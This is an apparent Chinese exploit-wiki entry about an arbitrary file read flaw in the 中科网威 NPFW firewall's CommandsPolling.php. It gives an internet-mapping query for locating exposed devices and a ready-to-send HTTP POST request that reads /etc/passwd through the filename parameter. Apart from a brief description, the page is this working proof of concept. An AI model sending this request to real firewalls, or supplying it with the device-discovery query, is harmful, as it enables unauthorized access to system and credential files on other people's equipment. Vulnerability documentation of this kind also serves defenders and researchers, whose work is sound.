 # 中科网威 NPFW防火墙 CommandsPolling.php 任意文件读取漏洞

## 漏洞描述

中科网威 NPFW防火墙 存在任意文件读取漏洞，由于代码过滤不足，可读取服务器任意文件

## 漏洞影响

<a-checkbox checked>中科网威 NPFW防火墙 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"中科网威" && "/direct"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1628698968275-7026aca2-33d4-4faa-9352-5a2f9bab7675.png)

发送请求包

```php
POST /direct/polling/CommandsPolling.php HTTP/1.1
Host: 
Cookie: PHPSESSID=014d2705856e1df139772db42ccbaf9f
Content-Length: 47
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close

command=ping&filename=%2Fetc%2Fpasswd&cmdParam=
```

![img](/assets/PeiQi-Wiki/img/1628699095412-3ee37eb5-54ed-4408-a13e-71159fc36610.png)